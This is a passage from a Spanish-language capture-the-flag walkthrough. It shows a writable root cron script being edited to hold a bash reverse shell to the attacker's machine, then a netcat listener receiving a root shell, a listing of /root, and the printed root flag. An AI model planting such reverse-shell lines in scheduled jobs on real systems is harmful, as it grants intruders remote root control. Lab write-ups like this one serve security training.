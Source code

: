 #### Modificamos el script para plantar un reverse shell hacia nuestra maquina kali

- vamos a la pagina de reverse shell generator y crafteamos el shell

```
>> modificamos el script
nano /var/www/.mysecretcronjob.sh 

cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
sh -i >& /dev/tcp/10.2.4.107/3939 0>&1

```
#### Ponemos en escucha nuestra maquina
```
nc -lnvp 3939         
listening on [any] 3939 ...
connect to [10.13.81.73] from (UNKNOWN) [10.10.76.203] 60336
sh: 0: can't access tty; job control turned off
# 


````

#### Una vez con shell sacamos la bandera
```
nc -lnvp 3939         
listening on [any] 3939 ...
connect to [10.13.81.73] from (UNKNOWN) [10.10.76.203] 60336
sh: 0: can't access tty; job control turned off
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
# 


```
